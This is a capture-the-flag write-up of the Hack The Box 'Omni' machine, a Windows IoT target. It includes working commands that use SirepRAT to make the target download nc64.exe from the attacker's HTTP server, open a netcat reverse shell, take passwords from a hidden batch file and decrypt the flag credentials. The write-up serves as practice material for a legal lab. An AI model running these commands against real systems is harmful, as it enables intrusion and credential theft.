## HTB Omni Writeup

This was a pretty interesting box and had a new OS that I’ve never messed with.

As always we start with an Nmap scan and adding the box to our hosts file.
![portscan](Pictures/omniScan.png)

So we see that it looks like a Windows server but we never get a proper OS fingerprint for it. After some Googling, it turns out to be a Windows IoT device which is why you see the **upnp** service. **ARCserve** also might give you a hint as it looks to be an IoT related storage solution.<br>

If you try to browse to the **8080** port, it’ll respond back with a login prompt but it’ll also mention that it’s a Windows Device Portal. If you look around for exploits regarding this, you’ll find a Python script called **SirepRAT**. This allows us to perform RCE but not interactively. We can run any command we want but it never gives us an interactive shell.<br>


However, after messing around with it for a bit, you’ll see that Powershell is installed and able to be called from this script. That means we’re able to upload and execute a payload or a tool. Something like **NetCat** perhaps? <br>


It’s important to mention that the proper version of **nc.exe** is needed for this to work. I used **nc64.exe** acquired from here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)  <br>


After we have that executable, we can start a Python HTTP Server to serve the payload.

```
krkn@htb:~$ sudo python -m SimpleHTTPServer 80
```

Then we can utilize the **SirepRAT.py** script to RCE and download that exe.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe Invoke-WebRequest http://10.10.14.234/nc64.exe -outfile C:\\Windows\\Temp\\nc64.exe" --v
```

This command will tell the remote server to run **cmd.exe** to then call Powershell to grab the payload we’re serving in our Python HTTP server and save it in the **Temp** directory.<br>


You’ll see a log in your Python terminal to confirm it was downloaded.<br>


Then we can start a netcat listener.

```
krkn@htb:~$ nc -lvp 4444
```

Finally we can use the **SirepRAT.py** script again to complete the netcat connection and give us our reverse shell.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\Temp\\nc64.exe 10.10.14.234 4444 -e cmd.exe" --v
```

At that point, you’ll get that lovely Windows command prompt.  <br>


From here you can look around all you want. However, an important file to note is located in **C:\Program Files\WindowsPowerShell\Modules\PackageManagement**. This file is hidden so use **dir /ah** to see it. You’ll see an **r.bat** file and in here you’ll find the passwords for user administrator and user app.

![shell](Pictures/omniShell.png)  <br>


Remember that login prompt from port 8080? Yeah you can use those creds there. It’ll take you to this.

![login](Pictures/omniLogin.png)  <br>


From here, you’ll see that under **Processes** menu, you have the ability to execute commands. You can use that same **nc64.exe** we dropped earlier to get higher privileges under these user contexts.

But unfortunately, we can’t get user or root because the flags are in some strange XML format.

![xml](Pictures/omniXML.png)  <br>


After some more Googling, we can decrypt these using Powershell.<br>


After opening a powershell prompt, we can use the following command on both **root.txt** and **user.txt** under their prospective user level.

```
$credroot = Import-CliXml -Path C:\\Data\\Users\\administrator\\root.txt


$credroot.GetNetworkCredential().Password
```

This will decrypt the password for us and give us the flags we need.

![finalFlag](Pictures/omniFlag.png)
